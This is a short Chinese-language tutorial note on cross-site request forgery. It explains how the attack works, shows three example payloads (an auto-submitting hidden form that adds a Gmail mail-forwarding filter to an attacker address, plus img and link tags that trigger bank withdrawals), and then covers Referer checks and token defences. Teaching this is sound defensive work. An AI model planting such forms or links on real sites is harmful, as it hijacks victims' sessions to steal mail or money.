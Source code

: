 # CSRF 跨站请求伪造

跨站请求伪造(Cross-site request forgery)，通常缩写为SCRF或XSRF，是一种挟制用户在当前已登录的Web应用程序上执行非本意的攻击方式，跟跨站脚本(XSS)相比，XSS利用的是用户对指定网站的信任，CSRF利用的是网站对用户网页浏览器的信任。

这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的
eg:
- 隐藏的表单：
```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">
    <input type="hidden" name="cf2_emc" value="true"/>
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>
    .....
    <input type="hidden" name="irf" value="on"/>
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/>
</form>
<script>
    document.forms[0].submit();
</script>
```
- img标签：
```html
<img src="http://bank.example/withdraw?amount=10000&for=hacker" >
```
- a标签链接
```html
<a href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker" taget="_blank">
  重磅消息！！
<a/>
```

## 防御措施
### 检查Referer字段
HTTP请求头中的referer字段标明请求来源于哪个地址，根据referer字段确认请求是否来自预期的安全网站，以识别恶意的访问。

### 添加校验token
由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址，所有如果要求在访问敏感数据请求时，要求用户提供不保存在cookie中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再运行CSRF攻击。

参考文献：
- [跨站请求伪造](https://zh.wikipedia.org/wiki/%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [前端安全系列(2)：如何防止CSRF攻击](https://segmentfault.com/a/1190000016659945)
